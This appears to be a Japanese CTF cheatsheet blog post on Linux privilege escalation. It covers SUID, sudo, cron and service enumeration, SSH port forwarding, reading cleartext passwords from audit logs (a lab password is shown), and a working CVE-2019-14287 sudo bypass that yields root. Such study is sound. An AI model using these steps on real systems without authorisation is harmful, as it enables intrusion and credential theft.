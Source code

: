 ```yaml
---
layout: post
title: Linuxの特権昇格
published : true
tags: CTF Common cheatsheet linux 特権昇格 Privesc "privilage escaration"
---
```

## 列挙
### SUID
```sh
find / -perm -4000 2>/dev/null
```

### sudo
```sh
sudo -l
```

### プロセス
```sh
ps awxww
```

### サービス
```sh
ss -antul
```

### apache2 config
```
/etc/apache2/sites-enabled
```

## ssh-keygen プロンプトなし。(RCEでリモートマシン上にssh-keygenするときに使う)
```sh
ssh-keygen -t rsa -f /home/matt/.ssh/id_rsa'
```

## SSH port forwerding
```sh
ssh daniel@panda.htb -L 9999:localhost:80
```

## cron
```sh
cat /etc/cron.d/*
```
and
```sh
cat /var/spool/cron/crontabs/*                cat: '/var/spool/cron/crontabs/*': Permission denied
```

## 監査ログ
- ユーザがadmグループにいるとき、監査ログが確認できる。その他/ver/logの確認も。

```sh
cry0l1t3@academy:/$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)

cry0l1t3@academy:/$ aureport --tty

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
Error opening config file (Permission denied)
NOTE - using built-in logs:
/var/log/audit/audit.log
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
3. 08/12/2020 02:28:24 89 0 ? 1 sh "whoami",<nl>
4. 08/12/2020 02:28:28 90 0 ? 1 sh "exit",<nl>
5. 08/12/2020 02:28:37 93 0 ? 1 sh "/bin/bash -i",<nl>
```

## sudo
sudo 1.8.28 より前のバージョンでは、CVE-2019-14287を適用できる場合がある。[JPCERT](https://www.jpcert.or.jp/newsflash/2019101601.html)
```sh
hugo@blunder:~$ sudo --version
Sudo version 1.8.25p1
hugo@blunder:~$ sudo -l
Password:
Matching Defaults entries for hugo on blunder:     env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
hugo@blunder:~$ sudo -u#-1 bash
root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
```